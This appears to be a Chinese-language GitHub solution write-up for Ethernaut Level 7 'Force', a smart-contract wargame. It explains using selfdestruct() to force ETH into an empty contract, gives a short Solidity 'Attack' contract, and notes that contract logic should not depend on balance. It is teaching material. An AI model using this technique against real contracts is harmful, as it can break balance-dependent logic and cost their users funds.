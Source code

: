 <div align="center">
<p align="left">(<a href="https://github.com/XuHugo/Ethernaut-Foundry-Solutions/tree/main/solutions">back</a>)</p>

<img src="../imgs/levels/7-force.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 7 - Force</strong></h1>

</div>
<br>

详细解读文章: [Ethernaut Foundry Solutions | Level 7 - Force](https://blog.csdn.net/xq723310/)

## 目录

- [目录](#目录)
- [目标](#目标)
- [漏洞](#漏洞)
- [解答](#解答)
- [要点](#要点)

## 目标

题目是一个空的合约，要求向其中转账
<img src="../imgs/requirements/7-force-requirements.webp" width="800px"/>

## 漏洞

题目给定的合约是完全空的。那么我们如何向它发送eth呢?诀窍是使用(很快就会被弃用) `selfdestruct()`，这是一种将eth强制发送到合约的方法。

当合约自毁时，合约必须将剩余的eth发送到另一个地址。这就是解这道题的方法。我们只需要部署一个自毁的合约，并将其eth发送给`Force` 合约。

## 解答

编写并部署一个攻击合约，攻击合约记录 `Force` 合约的地址，然后并调用 `selfdestruct()` 函数，将攻击合约的eth余额转发给`Force` 。

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

contract Attack {
    Force instance;

    constructor(address fb) {
        instance = Force(fb);
    }

    function attack() public payable {
        selfdestruct(payable(address(instance)));
    }
}
```

## 要点

- `selfdestruct()` 是一种强制向某地址发送eth的方法.
- <b>永远不要依赖合约的余额来实现敏感的逻辑.</b>

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
